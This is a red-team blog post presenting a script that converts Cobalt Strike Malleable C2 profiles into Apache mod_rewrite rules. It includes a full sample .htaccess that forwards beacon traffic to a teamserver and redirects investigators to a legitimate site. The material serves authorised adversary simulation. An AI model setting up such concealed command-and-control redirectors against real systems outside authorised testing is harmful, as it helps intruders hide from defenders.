 # Automating Apache mod_rewrite and Cobalt Strike Malleable C2 Profiles

**Joe Vest | February 1, 2018 | Tweet This Post: [:fa-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/blogs/2018/02/automating-cobalt-strike-profiles-apache-mod_rewrite-htaccess-files-intelligent-c2-redirection/&text=Automating Cobalt Strike profiles with Apache mod_rewrite for intelligent redirection)**

![][1]

This post describes a script I created to convert a Cobalt Strike Malleable C2 profile to corresponding mod_rewrite rules to enable intelligent HTTP proxying for redirection of C2 traffic.  The script automates the [process][2] described by well known redteamer and now co-worker – Jeff Dimmock ([@bluscreenofjeff][3]). Intelligent use of C2 redirectors is core to a mature C2 architecture that can withstand some gentle investigation and prodding. Developing Cobalt Strike compatible mod_rewrite rules to redirect traffic is not incredibly difficult, but there are a few Apache "gotchas" and the process can be error prone when dealing with multiple C2 profiles. Automation improves consistency and reduces the time needed to spin-up, test, and troubleshoot a unique and layered C2 infrastructure. It is always nice to start from a known good.

## Highlights of cs2modrewrite.py

* Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. **Result**: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
* Uses a custom Malleable C2 profile to build a _.htaccess_ file with corresponding mod_rewrite rules
* Supports the most recent Cobalt Strike 3.10 profile features
* HTTP or HTTPS proxying to the Cobalt Strike Team Server
* HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick Start

## Usage

The script can be found at: 

[github - cs2modrewrite](https://github.com/threatexpress/cs2modrewrite)

### Arguments

```    
cs2modrewrite.py [-h] [-i INPUTFILE] [-c C2SERVER] [-d DESTINATION]

Converts Cobalt Strike profiles to Apache mod_rewrite .htaccess file format by
using the User-Agent and URI Endpoint to create rewrite rules. Make sure the
profile passes a c2lint check before running this sript.

optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver)
    -d DESTINATION  (Optional) Redirect to this URL (http://google.com)
```

### Example Output
    
```    
#### Save the following as .htaccess in the root web directory

########################################
## .htaccess START 
RewriteEngine On

## (Optional)
## Scripted Web Delivery 
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here
RewriteRule ^.*$ HTTPS://GOHERE/? [L,R=302]

## .htaccess END
########################################
```

## What does this .htaccess do?

### Staging

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and a 4 character URI, it proxies the traffic to the teamserver.

### C2 Traffic

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and one of the following URIs 

`(/include/template/isx.php._|/wp06/wp-includes/po.php._|/wp08/wp-includes/dtcla.php,/modules/mod_search.php,/blog/wp-includes/pomo/src.php,/includes/phpmailer/class.pop3.php,/api/516280565958,/api/516280565959)`

it proxies the traffic to the teamserver.

### Catch All

Any traffic that doesn't match a rule redirects the request using an HTTP 302

## Summary

**TLDR** The python script _cs2modrewrite.py_ automates the process of creating a Malleable C2 compatible .htaccess file for intelligent redirection with Apache mod_rewrite. Try it out and feel free to give feedback and suggestions at [@joevest][4] on Twitter and on the ThreatExpress GitHub [repo][5].

For more details on developing C2 architecture, check out the Red Team Infrastructure [Wiki][6].

## References

- https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
- https://twitter.com/bluscreenofjeff
- https://github.com/threatexpress/cs2modrewrite
- https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

  
[1]: /img/cs2modrewriteargs.png
[2]: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
[3]: https://twitter.com/bluscreenofjeff
[4]: https://www.twitter.com/joevest
[5]: https://github.com/threatexpress/cs2modrewrite
[6]: https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

  